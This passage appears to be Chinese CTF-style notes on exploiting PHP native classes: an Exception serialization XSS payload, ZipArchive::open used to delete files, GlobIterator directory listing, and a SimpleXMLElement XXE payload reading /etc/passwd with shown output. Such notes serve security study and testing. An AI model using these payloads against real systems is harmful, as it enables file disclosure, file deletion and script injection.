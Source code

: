 **Exception使用条件：**
- 适用于php5、7版本
- 开启报错的情况下

```php
<?php
$a = new Exception("<script>alert(1)</script>");
$b = serialize($a);
$b = urlencode($b);  // 因为有不可见字符，所以url编码一下
echo $b;

// 测试
echo unserialize(urldecode($b));
```
## 实例化任意类

**ZipArchive::open 删除文件：**
要调用对象的额open函数，且open函数中的参数可控

```php
$a = new ZipArchive();
$a->open('1.txt',ZipArchive::OVERWRITE);  
// ZipArchive::OVERWRITE:  总是以一个新的压缩包开始，此模式下如果已经存在则会被覆盖
// 因为没有保存，所以效果就是删除了1.txt
```

**GlobIterator 遍历目录：**
遍历对象

```php
GlobIterator::__construct(string $pattern, [int $flag])
从使用$pattern构造一个新的目录迭代
```

```php
使用例子

$newclass = new GlobIterator("./*.php",0);
foreach ($newclass as $key=>$value)
    echo $key.'=>'.$value.'<br>';
```

**SimpleXMLElement XXE：**
用来表示XML文档中的元素

```php
<?php
$xml = <<<EOF
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY[
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<x>&xxe;</x>
EOF;
$xml_class = new SimpleXMLElement($xml, LIBXML_NOENT);
var_dump($xml_class);
?>

结果为：
object(SimpleXMLElement)#1 (1) {
  [0]=>
  string(2393) "root:x:0:0:root:/root:/bin/bash
  ... ..."
}
```
